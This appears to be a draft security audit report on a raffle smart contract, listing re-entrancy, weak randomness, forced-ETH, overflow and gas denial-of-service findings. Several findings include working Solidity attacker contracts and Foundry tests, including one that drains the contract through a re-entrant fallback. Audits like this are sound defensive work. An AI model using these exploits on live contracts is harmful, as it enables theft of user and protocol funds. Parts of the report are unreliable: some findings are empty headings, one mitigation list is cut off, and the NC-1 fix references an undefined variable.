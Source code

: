 ### [H-1] Re-entrancy Bug which causes users funds + protocol funds to be lost.

**Description:**
In the `PuffyRaffle::refund` function , when an attacker calls the refund , he create a contract that can re-enter the contract and keep receiving funds till the contract is drained. All the attacker need to do is to create a contract that has a fallback function that also calls the refund. so every time ETH is sent to the attackers contract, the fallback function get triggered and it keeps calling the refund till the balance of the contract is drained.

**Impact:** All users + protocol funds are drained

**Proof of Concept:**

<details>
<summary>Code</summary>

```solidity
///@notice Attacker contract
contract ReEntrancyAttacker {
    IPuffyRaffle raffle;
    constructor(address _raffle) {
        raffle = IPuffyRaffle(_raffle);
    }
    function refundAgain() public {
        while (address(raffle).balance != 0) {
            raffle.refund(0);
        }
    }

    fallback() external payable {
        refundAgain();
    }

}

///@notice Tests
function testRefundAllFundsInContract() public {
    ReEntrancyAttacker attackerCon = new ReEntrancyAttacker(
        address(puppyRaffle)
    );

    ///@notice attacker enters raffle
    address[] memory players = new address[](4);
    players[0] = address(attackerCon);
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);

    console.log("REFUNDING........");

    //attacker calls refund.
    attackerCon.refundAgain();

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);
    }
```

</details>

**Recommended Mitigation:**
Adhere to the CEI , Checks Effects Interaction.

```diff
-  payable(msg.sender).sendValue(entranceFee);

-  players[playerIndex] = address(0);

+  players[playerIndex] = address(0);
+  payable(msg.sender).sendValue(entranceFee);
```

The Effects should come before any external calls.


### [H-2] Weak Randomness in the `PuffyRaffle::selectWinner` function, which can be manipulated by miners.
**Description:**
In the `PuffyRaffle::selectWinner` function, the randomness is generated using the `(msg.sender, block.timestamp, block.difficulty)`. This is a weak source of randomness as miners can manipulate the block.timestamp and block.difficulty to predict the randomness. This can be done by miners who have control over the block.timestamp and block.difficulty.

**Impact:**
Miners can predict the randomness and manipulate the selection of the winner.

**Proof of Concept:**
<details>
<summary>Code</summary>

Attacker contract:
```solidity
contract AttackerGameProtocol is IERC721Receiver {
    IPuffyRaffle raffle;
    constructor(address _raffle) payable {
        raffle = IPuffyRaffle(_raffle);
    }
    function attack(uint256 time, uint256 diff, uint256 pLength) public {
        uint256 winnerIndex = uint256(
            keccak256(abi.encodePacked(address(this), time, diff))
        ) % pLength;

        console.log("Winner Index", winnerIndex);

        console.log(
            "Attacker Index",
            raffle.getActivePlayerIndex(address(this))
        );

        raffle.selectWinner();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external pure override returns (bytes4) {
        return this.onERC721Received.selector;
    }

    fallback() external payable {}

    receive() external payable {}
}
```

Test:
```solidity
function testGameProtocol() public {
        AttackerGameProtocol attackerGame = new AttackerGameProtocol{
            value: 1 ether
        }(address(puppyRaffle));

        uint256 attackerConBalanceBefore = address(attackerGame).balance;
        uint256 tokenIdBefore = puppyRaffle.balanceOf(address(attackerGame));

        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = address(attackerGame);
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        vm.prank(address(attackerGame));

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        attackerGame.attack(block.timestamp, block.difficulty, 4);

        console.log("Attacker Balance Before", attackerConBalanceBefore);
        console.log("Attacker Balance After", address(attackerGame).balance);

        console.log("Owner of Token 0", puppyRaffle.ownerOf(0));
    }
```
</details>

**Recommended Mitigation:**
Use Chainlink VRF or other secure sources of randomness.

### [H-3] Overflow High Issue

### [H-4] Malicious Winner

### [M-1] Denial of Service attack on the `PuffyRaffle::enterRaffle` function, which increases the amount of gas exponentially as `players` increases.

**Description:**
In the `PuffyRaffle::enterRaffle` function, the gas cost increases exponentially as the number of players increases. This is because the function loops through the `players` array which could be is an expensive operation. An attacker could create a contract that calls the `enterRaffle` function with a large number of players which will cause the function to run out of gas.

**Impact:**
The function will run out of gas and there denying users from using the protocol.

**Proof of Concept:**   Add this to the test suite:

<details>
<summary>POC</summary>

```solidity
function testDOS_Attack() public {
    uint256 firstPlayers = 10;

    //first 10 players
    address[] memory players = new address[](firstPlayers);
    for (uint256 i = 0; i < firstPlayers; i++) {
        players[i] = address(uint160(i));
    }

    uint256 gasLeftBefore = gasleft();

    puppyRaffle.enterRaffle{value: firstPlayers * entranceFee}(players);

    uint256 gasLeftAfter = gasleft();

    console.log("Gas Diff", gasLeftBefore - gasLeftAfter);

    uint256 secondPlayers = 100;

    ///second 100 players
    address[] memory second_players = new address[](secondPlayers);
    for (uint256 i = 0; i < secondPlayers; i++) {
        second_players[i] = address(uint160(secondPlayers + i));
    }

    uint256 gasLeftBeforeTwo = gasleft();

    puppyRaffle.enterRaffle{value: secondPlayers * entranceFee}(
        second_players
    );

    uint256 gasLeftAfterTwo = gasleft();

    console.log("Gas Diff", (gasLeftBeforeTwo - gasLeftAfterTwo));
    }
```

Output : We can see the gas cost increases exponentially as the number of players increases.

```javascript
Gas Diff 286208
Gas Diff 7070955
```

</details>

**Recommended Mitigation**
There are multiple ways to mitigate this:
* Protocol could add a cap to the number of players that can participate in the raffle.
* 



### [M-2] Protocol Can lose all protocol fee funds in the contract forever.

**Description:**
In the `PuffyRaffle::withdrawFees` function , the check for the balance to be equal to the `totalFees` in the contract will always fail if additional `ETH` is sent to the contract. Although the function does not have a `fallback` function to receive funds. An attacker could create a contract with `ETH` and call a `selfdestruct` which will push`ETH` to the contract. Thereby causing the protocol to lose the funds in the contract.

**Impact:**
All protocol fees will be lost forever.

**Proof of Concept:**

<details>

<summary>Code</summary>

```solidity
///@notice attacker contract
contract AttackerContract {
function attack(address victim) external payable {
    selfdestruct(payable(victim));
}

fallback() external payable {}

}

function testWithdrawShouldFailedWhenBalanceIsGreaterThanTotalFees() public playersEntered {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    puppyRaffle.selectWinner();

    //attack
    AttackerContract attackerCon = new AttackerContract();

    //send funds to attacker contract
    vm.deal(address(attackerCon), 3 ether);

    attackerCon.attack(address(puppyRaffle));

    vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
}
```

</details>

**Recommended Mitigation:** Change the require check.

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

+ require(totalFees != 0, "PuppyRaffle: Not enough fees!");
```


### [M-3] UnSafeCasting of `fees` to uint64 , causes overflow hence reducing the value of `totalFees`.

**Description**
The casting the fees to uint64 can overflow  `totalFees = totalFees + uint64(fee);`, when the value of fees increases. since a uint64 can only take up to 18.4..e18 values. so any value that goes beyond gets wrapped around. 

**Impact**
Some Protocol fees will be left int the contract, and since there is not function to remove excess funds this is a issue.

**Proof of Concept:**
Add this test to the test suite:
<details>
<summary>POC:</summary>

```solidity
function testOverflow() public {
    uint256 feeBefore = 10e18;

    console.log("Fee AFter", feeBefore);

    uint64 totalFeesBefore = uint64(feeBefore);

    console.log("Total Fees Before", totalFeesBefore);
    console.log("");

    console.log("Fee Increased.............");

    console.log("");

    uint256 feeAfter = feeBefore + 10e18;

    console.log("Fee", feeAfter);

    uint64 totalFeesAfter = uint64(feeAfter);

    console.log("Total Fees After", totalFeesAfter);
    }
```
</details>

**Recommended Mitigation**
There multiple ways to mitigate this issue:

* Use newer versions of solidity , since the compiler wont allow this `totalFees = totalFees + uint64(fee);` to compile.
* Use use OpenZeppelin's SafeCast to safely cast the fees.






### [NC-1] No checks for address validity, fees can be sent to a zero address

**Recommended Mitigation:** 
Add a require statement to check for address validity

```diff
function changeFeeAddress(address newFeeAddress) external onlyOwner {
+   require(newAddress!=address(0),"Invalid address");
    feeAddress = newFeeAddress;
    emit FeeAddressChanged(newFeeAddress);
}
```


### [NC-2] Variables that are set once , should be set to constant.


**Proof of Concept**

```javascript
string private commonImageUri =
    "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";
string private rareImageUri =
    "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
string private legendaryImageUri =
    "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

**Recommended Mitigation:**
Change the variables to constant.

```diff
- string private commonImageUri =
+ string private constant commonImageUri =
    "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

- string private rareImageUri =
+ string private constant rareImageUri =
    "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";

- string private legendaryImageUri =
+ string private constant legendaryImageUri =
    "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

### [NC-3] Do not Use magic numbers in the code.

**Proof of Concept**

```javascript
require(players.length >= 4, "PuppyRaffle: Need at least 4 players");

uint256 prizePool = (totalAmountCollected * 80) / 100;
uint256 fee = (totalAmountCollected * 20) / 100;
```

**Recommended Mitigation:**
Create a constant for the magic numbers.

```diff
+ uint256 constant MIN_PLAYERS = 4;
+ uint256 constant PRIZE_POOL_PERCENTAGE = 80;
+ uint256 constant FEE_PERCENTAGE = 20;
+ uint256 constant PRECISION = 100;
```

### [NC-4] Use `address(this).balance` instead of ` uint256 totalAmountCollected = players.length * entranceFee;` to get the balance of the contract.

**Proof of Concept**

```javascript
uint256 totalAmountCollected = players.length * entranceFee;
```

**Recommended Mitigation:**

```diff
- uint256 totalAmountCollected = players.length * entranceFee;
+ uint256 totalAmountCollected = address(this).balance;
```

### [NC-5] Unused code should be removed, to reduce contract code size.

**Proof of Concept**

```javascript
 function _isActivePlayer() internal view returns (bool) {
    for (uint256 i = 0; i < players.length; i++) {
        if (players[i] == msg.sender) {
                return true;
        }
    }
    return false;
 }
```

**Recommended Mitigation:**
Remove the unused code.


### [NC-6] Use Events to log important contract state changes.

**Description:**
Events are a way to log important contract state changes. They are useful for dApps to listen to these events and update the UI accordingly. `PuppyRaffle::withdrawFees` and `PuppyRaffle::selectWinner` functions do not emit any events.

**Recommended Mitigation:**
Add events to log important contract state changes.


### [NC-7] Events parameters should be indexed, to make it easier to filter events.

**Description:**
Events parameters should be indexed, to make it easier to filter events. `PuppyRaffle::enterRaffle`,`PuppyRaffle::refund` and `PuppyRaffle::changeFeeAddress` event does not have any indexed parameters.

**Recommended Mitigation:**
Add indexed parameters to the events.


### [NC-8] erroneous 'getActivePlayerIndex' function